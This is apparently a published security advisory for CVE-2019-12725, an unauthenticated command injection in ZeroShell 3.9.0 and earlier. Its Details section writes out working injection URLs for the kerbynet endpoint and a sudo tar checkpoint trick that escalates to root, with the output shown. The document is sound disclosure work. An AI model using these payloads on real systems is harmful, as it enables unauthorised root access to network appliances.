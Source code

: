 # CVE-2019-12725: Remote Command Execution in ZeroShell
[![](https://img.shields.io/badge/Attack%20Vector-Remote-red?style=flat-square)]() [![](https://img.shields.io/badge/Privileges%20Required-None-red?style=flat-square)]() [![](https://img.shields.io/badge/User%20Interaction-No-red?style=flat-square)]()


__Vendor:__ ZeroShell<br>
__Vendor URL:__ https://zeroshell.org<br>
__Versions affected:__ ZeroShell <= 3.9.0<br>
__Discovered by:__ Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))<br>
__Public fix:__ Yes<br>
__Proof of Concept:__ Yes ([ref](https://github.com/blackarrowsec/advisories/blob/master/2019/CVE-2019-12725/CVE-2019-12725.py)) <br>

## Summary 
ZeroShell 3.9.0 (and before) is vulnerable to RCE because some parameters sent to the endpoint are used by a bash script without a properly sanitization.

## Details

An unauthenticated attacker can execute arbitrary commands via command injection with new-line characters:
```
/cgi-bin/kerbynet?Section=NoAuthREQ&Action=x509view&User=Admin&x509type='%0Auname -a%0A'
```

Additionally the Apache user can execute the "tar" command as root (/etc/sudoers):
```
(...)
apache ALL= NOPASSWD:   /bin/tar
(...)
```

This can be abused in order to elevate privileges via the RCE:

``` 
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=id%0A'

uid=0(root) gid=0(root) groups=0(root)
```
## Impact

An unauthenticated attacker can execute commands remotely as root.

## Recommendation
Update to last version.

## Timeline
* 29/05/2019 - Reported the vulnerability to vendor
* 29/05/2019 - Vendor ACK
* 05/06/2019 - CVE Identifier (CVE-2019-12725) assigned by MITRE
* 04/08/2019 - Security Release with fix (ZeroShell 3.9.3)

#

[![](https://img.shields.io/badge/www-blackarrow.net-E5A505?style=flat-square)](https://www.blackarrow.net) [![](https://img.shields.io/badge/twitter-@BlackArrowSec-00aced?style=flat-square&logo=twitter&logoColor=white)](https://twitter.com/BlackArrowSec) [![](https://img.shields.io/badge/linkedin-@BlackArrowSec-0084b4?style=flat-square&logo=linkedin&logoColor=white)](https://www.linkedin.com/company/blackarrowsec/)
